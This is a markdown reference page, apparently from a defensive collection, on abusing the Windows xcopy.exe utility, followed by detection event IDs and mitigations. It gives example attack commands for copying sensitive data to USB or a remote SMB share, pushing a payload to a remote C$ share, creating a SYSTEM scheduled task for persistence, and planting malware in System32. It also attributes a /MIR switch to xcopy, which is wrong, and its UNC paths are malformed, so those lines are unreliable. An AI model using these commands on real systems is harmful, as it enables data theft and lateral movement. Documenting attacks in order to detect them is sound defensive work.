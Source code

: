 # xcopy.exe
## What is it?
*```xcopy.exe``` is a command-line utility in Windows that is used for copying files and directories, including subdirectories and file attributes.*
*It is an extended version of the basic ```copy``` command and provides more control over the file copying process, making it useful for backup and system maintenance tasks.*

## Legitimate Usage
- **Backup & File Transfer** → Copy files or directories from one location to another, with the option to preserve file attributes and timestamps (```/E```, ```/H```).
- **Directory Synchronization** → Mirror directories, ensuring that changes in source folders are replicated in destination folders (```/MIR```).
- **Mass File Operations** → Move a large number of files while maintaining folder structure and file properties (```/S```, ```/E```).
- **Batch File Automation** → Use in scripts or batch files to automate file copying tasks in a controlled environment.

## How to abuse it
- **Data Exfiltration** → Attackers can use ```xcopy.exe``` to copy sensitive files from a target system and exfiltrate them to an external device or remote location.
- **Bypassing Security Controls** → ```xcopy.exe``` is a trusted, built-in Windows utility, which makes it effective for bypassing security tools and whitelisting mechanisms.
- **Persistence** → Attackers can use ```xcopy.exe``` in conjunction with other techniques to place malicious payloads on a system for continued execution.
- **Privilege Escalation & Lateral Movement** → ```xcopy.exe``` can be used to move files, including tools or malware, across systems on a network.

## Example attacks
### 1. Data Exfiltration (Copying Files to External Media)
*Attackers can use ```xcopy.exe``` to copy sensitive files from a system to an external USB drive or network share.*

**Copy Files to an External USB Drive**

```
xcopy C:\SensitiveData E:\Backup /E /H /C /Y
```

**Effect:**
- ```/E``` → Copies directories and subdirectories, including empty ones.
- ```/H``` → Copies hidden and system files.
- ```/C``` → Continues copying even if errors occur.
- ```/Y``` → Suppresses confirmation prompts, allowing silent copying.

### 2. Exfiltration via Network Share
*Attackers can copy files over SMB to a remote network share to exfiltrate data silently.*

**Copy Files to a Remote Network Share**

```
xcopy C:\SensitiveData \192.168.1.100\share /E /H /C /Y
```

**Effect:**
- Copies files from the local system to a remote share, bypassing traditional monitoring tools.

### 3. Lateral Movement via File Transfer
*Attackers can move files, such as tools or malware, across systems on a network using ```xcopy.exe```.*

**Copy Malware to Remote System**

```
xcopy payload.exe \192.168.1.50\C$\Windows\Temp /E /H /C
```

**Effect:**
- Copies malicious payload to a remote system via SMB for execution.
- ```/C``` ensures that the operation continues even if errors occur, maintaining the attack's stealth.

### 4. Persistence via Scheduled Tasks
*Attackers can schedule periodic file transfers to maintain access to sensitive data or systems.*

**Schedule File Copy Every Hour**

```
schtasks /create /tn "BackupJob" /tr "xcopy C:\SensitiveData E:\Backup /E /H /Y" /sc hourly /ru SYSTEM
```

**Effect:**
- Creates a scheduled task to copy files every hour, ensuring persistence and continued access to sensitive data.

### 5. Bypassing Execution Restrictions
*```xcopy.exe``` can be used to bypass software restrictions by copying files to trusted directories (e.g., ```C:\Windows\System32```), which are not blocked by security tools like AppLocker or SRP.*

**Copy Malware to a Trusted Directory**

```
xcopy C:\MalwareFolder C:\Windows\System32 /E /H
```

**Effect:**
- Places malicious files in trusted system directories, bypassing application whitelisting and execution restrictions.

# Detection & Mitigation
## Detection Methods
**Monitor File Transfers**
- **Event ID 4663 (File Access)** → Monitor for bulk file movements, especially copying files to external media or remote shares.
- **Look for ```xcopy.exe``` writing to USB devices or network shares**.

**Monitor Scheduled Task Creation**
- **Event ID 4698 (Scheduled Task Created)** → Detect unauthorized scheduled tasks that involve file copying operations.

**Monitor Network Activity**
- **Event ID 5140 (SMB Share Access)** → Track file transfers over SMB to detect unauthorized or suspicious activities.

## Mitigation Strategies
- **Restrict External Device Access** → Prevent unauthorized USB file transfers by disabling external device access or using device control tools.
- **Use Application Control (AppLocker, WDAC)** → Prevent the execution of unauthorized applications, including ```xcopy.exe```, in non-administrative directories.
- **Monitor File Access Logs** → Detect large file transfers or copying activities, especially involving sensitive directories or external devices.
- **Disable SMB/Remote File Shares** → Reduce the attack surface by blocking SMB or restricting access to remote file shares.
